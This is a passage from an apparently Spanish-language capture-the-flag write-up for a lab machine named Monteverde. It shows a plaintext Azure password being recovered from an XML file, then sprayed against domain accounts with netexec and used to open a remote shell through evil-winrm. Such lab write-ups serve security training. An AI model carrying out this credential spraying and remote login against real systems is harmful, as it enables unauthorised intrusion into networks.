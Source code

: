 El `archivo` está en `UTF-16` por lo que `no` es `legible`

```
# file azure.xml 
azure.xml: Unicode text, UTF-16, little-endian text, with CRLF line terminators
```

`Convertimos` el `archivo` de `UTF-16` a `UTF-8` para que sea `legible`

```
# iconv -f UTF-16 -t UTF-8 azure.xml -o output.xml
```

Ahora podemos `visualizar` el `archivo` correctamente

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

`Validamos usuarios` con este `contraseña` y `obtenemos` unas `credenciales` válidas

```
# netexec winrm 10.129.228.111 -u users -p '4n0therD4y@n0th3r$'         
WINRM       10.129.228.111  5985   MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL)
WINRM       10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\administrator:4n0therD4y@n0th3r$
WINRM       10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\Guest:4n0therD4y@n0th3r$
WINRM       10.129.228.111  5985   MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:4n0therD4y@n0th3r$
WINRM       10.129.228.111  5985   MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$ (Pwn3d!)
```

## Intrusión

`Accedemos` a la `máquina víctima` mediante el servicio `winrm`

```
# evil-winrm -i 10.129.228.111 -u 'mhope' -p '4n0therD4y@n0th3r$'      
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami
megabank\mhope
```

